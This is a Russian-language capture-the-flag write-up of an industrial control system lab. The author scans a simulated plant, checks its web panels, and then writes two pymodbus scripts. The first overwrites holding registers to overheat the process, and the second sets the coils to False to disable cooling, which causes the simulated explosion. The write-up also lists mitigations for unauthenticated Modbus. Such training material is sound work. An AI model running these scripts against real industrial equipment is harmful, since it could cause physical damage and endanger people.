*This challenge drops you into the shoes of the APT operator: With a single crafted Modbus, you over-pressurise the main pump, triggering a thunderous blow-out that floods the plant with alarms. While chaos reigns, your partner ghosts through the shaken DMZ and installs a stealth implant, turning the diversion’s echo into your persistent beachhead.*

| Уязвимость                                                     | Опасность                                                        | Как обеспечить безопасность                                                                                                                                                    |
| -------------------------------------------------------------- | ---------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Отсутствие аутентификации и контроля доступа в Modbus TCP.<br> | Возможность удаленно управлять физическими процессами в системе. | Изолировать промышленные порты от внешнего воздействия, ввести белый список адресов, которые могут обращаться к ним. Также можно добавить аутентификацию на уровне приложений. |

Видим 22 ssh, 80, 1880, 8080 - веб-сервера и 102, 502, 44818 - промышленные протоколы.
```
Host is up (0.0081s latency).

PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 6c:d5:ed:b8:18:7e:bc:56:77:a8:72:89:d5:e6:92:cf (ECDSA)
|_  256 f2:4d:06:5c:57:07:16:d8:b1:65:ad:f0:8f:c2:8f:cb (ED25519)
80/tcp    open  http          Werkzeug httpd 3.1.3 (Python 3.12.3)
|_http-server-header: Werkzeug/3.1.3 Python/3.12.3
|_http-title: PLC CCTV Simulator
102/tcp   open  iso-tsap      Siemens S7 PLC
| s7-info:
|   Module: 6ES7 315-2EH14-0AB0
|   Basic Hardware: 6ES7 315-2EH14-0AB0
|   Version: 3.2.6
|   System Name: SNAP7-SERVER
|   Module Type: CPU 315-2 PN/DP
|   Serial Number: S C-C2UR28922012
|_  Copyright: Original Siemens Equipment
| fingerprint-strings:
|   TerminalServerCookie:
|_    Cookie: mstshash=nmap
502/tcp   open  modbus        Modbus TCP
1880/tcp  open  vsat-control?
| fingerprint-strings:
|   DNSVersionBindReqTCP, RPCCheck:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest:
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1733
|     ETag: W/"6c5-hGVEFL4qpfS9qVbAlfbm9AL7VT0"
|     Date: Sun, 28 Jun 2026 09:39:18 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="X-UA-Compatible" content="IE=edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=0">
|     <meta name="apple-mobile-web-app-capable" content="yes">
|     <meta name="mobile-web-app-capable" content="yes">
|     <!--
|     Copyright OpenJS Foundation and other contributors, https://openjsf.org/
|     Licensed under the Apache License, Version 2.0 (the "License");
|     this file except in compliance with the License.
|     obtain a copy of the License at
|     http://www.apache.org/licenses/LICENSE-2.0
|     Unless required by applicable law or agreed to in writing, softwa
|   HTTPOptions, RTSPRequest:
|     HTTP/1.1 204 No Content
|     Access-Control-Allow-Origin: *
|     Access-Control-Allow-Methods: GET,PUT,POST,DELETE
|     Vary: Access-Control-Request-Headers
|     Content-Length: 0
|     Date: Sun, 28 Jun 2026 09:39:18 GMT
|_    Connection: close
8080/tcp  open  http          Werkzeug httpd 2.3.7 (Python 3.12.3)
|_http-server-header: Werkzeug/2.3.7 Python/3.12.3
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /login
44818/tcp open  EtherNetIP-2?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1880-TCP:V=7.95%I=7%D=6/28%Time=6A40EBC8%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,799,"HTTP/1\.1\x20200\x20OK\r\nAccess-Control-Allow-Origin:\x2
SF:0\*\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\
SF:x201733\r\nETag:\x20W/\"6c5-hGVEFL4qpfS9qVbAlfbm9AL7VT0\"\r\nDate:\x20S
SF:un,\x2028\x20Jun\x202026\x2009:39:18\x20GMT\r\nConnection:\x20close\r\n
SF:\r\n<!DOCTYPE\x20html>\n<html>\n<head>\n<meta\x20charset=\"utf-8\">\n<m
SF:eta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=edge\">\n<meta\x2
SF:0name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=1,
SF:\x20maximum-scale=1,\x20user-scalable=0\">\n<meta\x20name=\"apple-mobil
SF:e-web-app-capable\"\x20content=\"yes\">\n<meta\x20name=\"mobile-web-app
SF:-capable\"\x20content=\"yes\">\n<!--\n\x20\x20Copyright\x20OpenJS\x20Fo
SF:undation\x20and\x20other\x20contributors,\x20https://openjsf\.org/\n\n\
SF:x20\x20Licensed\x20under\x20the\x20Apache\x20License,\x20Version\x202\.
SF:0\x20\(the\x20\"License\"\);\n\x20\x20you\x20may\x20not\x20use\x20this\
SF:x20file\x20except\x20in\x20compliance\x20with\x20the\x20License\.\n\x20
SF:\x20You\x20may\x20obtain\x20a\x20copy\x20of\x20the\x20License\x20at\n\n
SF:\x20\x20http://www\.apache\.org/licenses/LICENSE-2\.0\n\n\x20\x20Unless
SF:\x20required\x20by\x20applicable\x20law\x20or\x20agreed\x20to\x20in\x20
SF:writing,\x20softwa")%r(HTTPOptions,DF,"HTTP/1\.1\x20204\x20No\x20Conten
SF:t\r\nAccess-Control-Allow-Origin:\x20\*\r\nAccess-Control-Allow-Methods
SF::\x20GET,PUT,POST,DELETE\r\nVary:\x20Access-Control-Request-Headers\r\n
SF:Content-Length:\x200\r\nDate:\x20Sun,\x2028\x20Jun\x202026\x2009:39:18\
SF:x20GMT\r\nConnection:\x20close\r\n\r\n")%r(RTSPRequest,DF,"HTTP/1\.1\x2
SF:0204\x20No\x20Content\r\nAccess-Control-Allow-Origin:\x20\*\r\nAccess-C
SF:ontrol-Allow-Methods:\x20GET,PUT,POST,DELETE\r\nVary:\x20Access-Control
SF:-Request-Headers\r\nContent-Length:\x200\r\nDate:\x20Sun,\x2028\x20Jun\
SF:x202026\x2009:39:18\x20GMT\r\nConnection:\x20close\r\n\r\n")%r(RPCCheck
SF:,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n
SF:")%r(DNSVersionBindReqTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:nection:\x20close\r\n\r\n");
Service Info: OS: Linux; Device: specialized; CPE: cpe:/o:linux:linux_kernel

Service detection performed.
```

На веб-сервере видим состояние системы. Охлаждение выключено, температура маленькая. Состояние получается через /api/state, а видео подгружается через /video?mode=. Проверил апи и параметр mode, они безопасны.



Изучаем второй веб-сервер. Фаззинг выявил несколько директорий.



Зайдя на этот сайт, нас встречает страница логина. Попытки перейти на любые другие страницы делают редирект на страницу логина. Поэтому тут нечего делать без кредов.



По предоставленной вами строке openplc webserver Release: 2025-03-31 можно с уверенностью сказать, что это OpenPLC v3, для него характерны несколько уязвимостей.

CVE-2026-28205 - нужна апи
CVE-2026-35556 - нужен доступ к БД
CVE-2026-35063 - нужна авторизация

Актуальных для нас уязвимостей нет, поэтому переходим к изучению следующего веб-сервера, на порту 1880, там расположен HTTP-сервер Node-RED.

При заходе на сайт нас встречает поля ввода логина и пароля.



Фаззинг нашел некоторые директории.



Далее я чуть больше копнул, нашел некоторые исходные файлы. Никаких уязвимостей там не обнаружил.



Директория /ui/ предоставляет доступ к состоянию системы, это похоже, то то же самое, как и основной веб-сервер, есть информация о температуре и включена или выключена система охлаждения.



Далее я перешел к изучению промышленных портов. 102 мне не ответил, поэтому я перешел на 502.
Через nmap проверим, есть ли какая то информация. Сильно ничего не дало.



Далее я проверил, можно ли читать регистры. Оказалось чтение доступно. В холдинговых регистрах (функция 4) данные есть только по адресу 1. Скорее всего это и есть температура системы. Если поменять значение в 1 регистре то система перегреется.



Скрипт, который меняет все значения на 12345.

```
from pymodbus.client import ModbusTcpClient
import time

client = ModbusTcpClient('10.113.181.49', port=502)
client.unit_id = 1
client.connect()

for addr in range(0, 21):
    w = client.write_register(addr, 12345)
    if w.isError():
        print(f"Адрес {addr}: запись невозможна")
        continue
    time.sleep(0.1)  # даём время системе обновиться
    r = client.read_holding_registers(addr, 1)
    if not r.isError():
        val = r.registers[0]
        if val == 12345:
            print(f"Адрес {addr}: успешно записано {val}")
        else:
            print(f"Адрес {addr}: записано, но значение {val} (перезаписано)")
    else:
        print(f"Адрес {addr}: ошибка чтения")
client.close()
```

После запуска, во всех регистрах хранилось значение 12345.



Зайдя на сайт через порт 1880, видно, что температура огромная и включалась система охлаждения.



На основном веб-сервере та же информация, всё дублируется.



Если посмотрим значения в катушках, то увидим, что одно из них заменилось на True. Это по логике связано с включившейся системой охлаждения. Нам надо поменять это значение на False.



Пишем скрипт, которые перепишет все значения на False.

```
#!/usr/bin/env python3
from pymodbus.client import ModbusTcpClient

HOST = '10.113.181.49'
PORT = 502
UNIT = 1
START_ADDR = 0
COUNT = 16

client = ModbusTcpClient(HOST, port=PORT)
client.unit_id = UNIT
client.connect()

values = [False] * COUNT

result = client.write_coils(START_ADDR, values)
if result.isError():
    print("Ошибка записи:", result)
else:
    print(f"Успешно записано {COUNT} катушек в False")

client.close()
```

После того, как мы отключили систему охлаждения, система выходит из строя и взрывается.



